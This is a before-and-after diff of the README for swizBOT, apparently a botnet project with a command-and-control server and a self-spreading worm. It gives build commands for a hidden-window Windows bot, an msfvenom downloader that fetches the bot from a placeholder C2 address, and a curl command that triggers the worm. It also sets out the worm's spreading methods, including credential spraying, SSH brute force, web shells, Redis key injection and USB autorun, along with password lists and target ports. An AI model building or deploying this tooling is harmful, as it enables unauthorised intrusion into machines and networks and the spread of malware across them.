

Before and after one commit to ekomsSavior/swizBOT, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -217,15 +238,10 @@ Create a custom payload that downloads your full bot:
 
 ```bash
 # First, compile your Go bot client to an executable
-GOOS=windows GOARCH=amd64 CGO_ENABLED=0 go build -ldflags="-s -w -H=windowsgui" -o output/bot.exe client/main.go
+GOOS=windows GOARCH=amd64 CGO_ENABLED=0 go build -ldflags="-s -w -H=windowsgui" -o output/bot.exe client/*.go
 
 # Host bot.exe on your C2 or a web server
-# Then create a downloader payload (written in C and compiled to raw shellcode)
-```
-
-Or use msfvenom to generate a downloader:
-
-```bash
+# Then create a downloader payload
 msfvenom -p windows/download_exec URL=http://YOUR_C2_IP:8080/bot.exe -f raw -o payloads/downloader.bin
 ```
 
@@ -505,16 +520,24 @@ nc -lvnp 4444
 
 ## Worm Module
 
-The worm module spreads swizBOT to other machines on the local network.
+The worm module spreads swizBOT across networks using 15+ propagation methods simultaneously.
 
 ### How It Works
 
-1. Bot scans local /24 subnet for open ports (445 SMB, 3389 RDP)
-2. Attempts credential spraying with common passwords
-3. If successful, copies stager to ADMIN$ share
-4. Schedules a task or WMI call to execute stager
-5. New machine downloads bot.exe from C2
-6. New bot repeats the process
+1. Bot scans local /24 subnet for open ports (445, 3389, 22, 3306, 1433, etc.)
+2. For each open port, attempts the appropriate exploit:
+   - SMB: Credential spraying + ADMIN$ deployment
+   - RDP: Credential spraying + remote task scheduling
+   - SSH: Brute force + key-based authentication
+   - Web: Directory traversal + file upload + web shells
+   - Databases: Default credentials + UDF exploit
+   - Redis: Config rewrite to inject SSH keys
+   - Elasticsearch: Groovy script RCE
+3. Also spreads via USB drives (autorun + hidden files + shortcut spoofing)
+4. Also spreads via network shares and mapped drives
+5. Also harvests passwords from log files and configs
+6. On successful compromise, copies bot to target and executes
+7. New bot repeats the entire process
 
 ### Activate Worm
 
@@ -527,12 +550,36 @@ curl -k "https://localhost:8443/command?bot_id=DESKTOP-ABC&cmd=worm"
 
 ### Configure Worm Credentials
 
-Edit `client/worm.go` to add your own password list:
+Edit `client/worm.go` to customize password lists:
 
 ```go
 var commonPasswords = []string{
     "", "123456", "password", "admin", "Passw0rd",
     "Welcome1", "Password123", "Admin123", "qwerty",
+}
+
+var commonUsernames = []string{
+    "Administrator", "admin", "user", "guest", "backup",
+    "test", "root", "oracle", "postgres", "mysql", "sa",
+}
+```
+
+### Configure Vulnerable Ports
+
+Edit `client/worm.go` to customize target ports:
+
+```go
+var vulnerablePorts = map[string]string{
+    "445":  "SMB",
+    "3389": "RDP",
+    "22":   "SSH",
+    "3306": "MySQL",
+    "1433": "MSSQL",
+    "5432": "PostgreSQL",
+    "6379": "Redis",
+    "27017": "MongoDB",
+    "9200": "Elasticsearch",
+    "5900": "VNC",
 }
 ```
 
````
Also changed, not shown: other parts of README.md (+104 -78 lines).
